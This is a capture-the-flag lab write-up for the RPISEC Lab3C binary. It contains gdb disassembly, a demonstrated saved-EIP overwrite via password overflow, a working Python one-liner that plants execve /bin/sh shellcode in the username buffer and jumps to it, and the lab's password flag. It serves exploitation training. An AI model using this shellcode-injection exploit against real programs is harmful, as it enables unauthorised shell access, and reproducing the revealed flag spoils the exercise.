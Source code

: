 ## Lab3C

`i functions`

```
0x0804873d  verify_user_name
0x0804876d  verify_user_pass
0x08048790  main
```

`disas verify_user_name`
```
Dump of assembler code for function verify_user_name:
   0x0804873d <+0>:     push   ebp
   0x0804873e <+1>:     mov    ebp,esp
   0x08048740 <+3>:     sub    esp,0x18
   0x08048743 <+6>:     mov    DWORD PTR [esp],0x8048910
   0x0804874a <+13>:    call   0x8048600 <puts@plt>
   0x0804874f <+18>:    mov    DWORD PTR [esp+0x8],0x6
   0x08048757 <+26>:    mov    DWORD PTR [esp+0x4],0x8048928
   0x0804875f <+34>:    mov    DWORD PTR [esp],0x8049c40
   0x08048766 <+41>:    call   0x8048630 <strncmp@plt>
   0x0804876b <+46>:    leave  
   0x0804876c <+47>:    ret    
End of assembler dump.
```
```
$ x/s 0x8048928
0x8048928:      "rpisec"
```

Buffer overflow is in password input

```
>>> print('a'*80 + 'b'*4)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb
```

Enter above string for password and we have successfully overwritten the saved EIP

```
$ i f
Stack level 0, frame at 0xbffff700:
 eip = 0x8048844 in main; saved eip = 0x62626262
 called by frame at 0xbffff704
 Arglist at 0xbffff6f8, args: 
 Locals at 0xbffff6f8, Previous frame's sp is 0xbffff700
 Saved registers:
  ebx at 0xbffff6f0, ebp at 0xbffff6f8, edi at 0xbffff6f4, eip at 0xbffff6fc
```

We can also overflow username which is stored in the data segment @ 0x8049c40. So we add the shellcode after the username "rpisec" and jump to it by overwriting the eip with address 0x8049c46

shellcode - http://shell-storm.org/shellcode/files/shellcode-811.php

`python -c "print 'rpisec\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80';print 'a'*80 + 'F\x9c\x04\x08'" > /tmp/a.txt`

`$ (cat /tmp/a.txt; cat -)|./lab3C`

Password - **`th3r3_iz_n0_4dm1ns_0n1y_U!`**


